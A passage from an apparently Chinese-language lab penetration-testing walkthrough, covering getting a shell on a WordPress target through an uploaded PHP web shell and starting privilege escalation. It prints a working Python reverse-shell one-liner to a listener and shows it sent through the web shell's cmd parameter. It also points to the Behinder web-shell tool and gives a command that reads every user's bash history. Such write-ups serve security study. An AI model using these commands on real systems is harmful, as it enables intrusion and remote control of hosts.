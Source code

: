 [![](assets/1699929525-f462a44d0d7692317300c446f5661396.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140506-6d61ed2e-8121-1.png)

kali 监听，在 cmd 参数输入 python 反弹 shell

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.179.141",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

访问：[https://192.168.179.149:12380/blogblog/wp-content/uploads/exec.php?cmd=python](https://192.168.179.149:12380/blogblog/wp-content/uploads/exec.php?cmd=python) -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("192.168.179.141",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

[![](assets/1699929525-18f29a1e4a672f2812b3975157685634.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140524-77f2f8be-8121-1.png)

获得 shell

### 文件上传冰蝎获取 shell

这里也可以使用冰蝎来获取 shell  
冰蝎下载地址：[Release Behinder\_v3.0\_Beta\_11: Update README.md · rebeyond/Behinder · GitHub](https://github.com/rebeyond/Behinder/releases/tag/Behinder_v3.0_Beta_11)

## 权限提升

### sudo 提权

查看各个用户的历史命令获取更多信息， .bash\_history 命令操作日志

```bash
cat /home/*/.bash_history | grep -v exit
```
